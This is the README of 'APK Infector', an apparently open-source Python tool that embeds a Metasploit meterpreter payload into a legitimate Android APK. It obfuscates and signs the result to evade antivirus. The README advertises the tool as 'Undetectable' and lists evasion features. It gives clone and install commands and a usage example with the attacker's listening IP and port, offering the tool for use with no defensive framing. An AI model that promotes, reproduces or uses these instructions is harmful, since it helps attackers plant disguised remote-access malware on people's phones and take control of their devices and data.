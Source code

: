 <p align="center">
  <img src="https://github.com/PushpenderIndia/apkinfector/blob/master/img/logo.png" alt="APK Infector Logo" width=300 height=200/>
</p>

<h1 align="center">APK Infector</h1>
<p align="center">
    <a href="https://python.org">
    <img src="https://img.shields.io/badge/Python-3-green.svg">
  </a>
  <a href="https://github.com/PushpenderIndia/apkinfector/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/PushpenderIndia/apkinfector/releases">
    <img src="https://img.shields.io/badge/Release-1.0-blue.svg">
  </a>
    <a href="https://github.com/PushpenderIndia/apkinfector">
    <img src="https://img.shields.io/badge/Open%20Source-%E2%9D%A4-brightgreen.svg">
  </a>
</p>

                        This small python script can do really awesome work.
                        
Advanced Android Antivirus Evasion Tool Written In Python 3 that can Embed/Bind meterpreter APK to any Legitimate APK & can completely ofusticate the meterpreter payload with different techniques.

## Features
- [x] Fully Automate Payload Creation Using MSFvenom
- [x] Creates a handler.rc File 
- [x] Undetectable
- [x] Ofusticate Meterpreter APK
- [x] Binds/Embeds Meterpreter APK with Any Legitimate APK 
- [x] Automatically Generates a Key which is used in signing
- [x] Capable to Sign APK Using **Jarsigner** or **APKsigner**
- [x] Zipalign the Signed APK
- [x] Shuffles the Permissions of Meterpreter APK for AV Evasion
- [x] Changes the default foldername and filenames which are being flagged by AV

## Tools Overview
| Front View | Sample Feature	|
| ------------  | ------------ |
|![Index](https://github.com/PushpenderIndia/apkinfector/blob/master/img/apkinfector%201.png)|![f](https://github.com/PushpenderIndia/apkinfector/blob/master/img/apkinfector%202.png)

## Prerequisite
- [x] Python 3.X
- [x] APKsigner or Jarsigner  [**One of them**]
- [x] APK Tool [**Latest**]
- [x] ZipAlign

## Tested On
[![Kali)](https://www.google.com/s2/favicons?domain=https://www.kali.org/)](https://www.kali.org) **Kali Linux - 2019.4**

## Installation & Usage

```

# Navigate to the /opt directory (optional)
$ cd /opt/

# Clone this repository
$ git clone https://github.com/PushpenderIndia/apkinfector.git

# Navigate to technowlogger folder
$ cd apkinfector

# Installing dependencies
$ apt-get update && apt-get install apktool && apt-get install zipalign && apt-get install apksigner

# Running the Tool for 1st Time
$ python3 infector.py --help

# Usage Example
$ python3 infector.py --lhost 192.168.43.70 --lport 4444 --apk-name NEW_APK_NAME --normal-apk /root/Desktop/Path/TO/Legitemate_APK_File.apk

```

## Available Arguments 
* Optional Arguments

| Short Hand  | Full Hand | Description |
| ----------  | --------- | ----------- |
| -h          | --help    | show this help message and exit |

* Required Arguments

| Short Hand  | Full Hand | Description |
| ----------  | --------- | ----------- |
|             | --lhost 192.168.44.33  | Attacker's IP Address |
|             | --lport 4444 | Attacker's Port |
| -n NORMAL_APK | --normal-apk NORMAL_APK | Absolute Path of Legitimate APK File |
|     |  --apk-name APKNAME   | APK Name (Anything You Want To Name) |

## Contribute

* All Contributors are welcome, this repo needs contributors who will improve this tool to make it best.



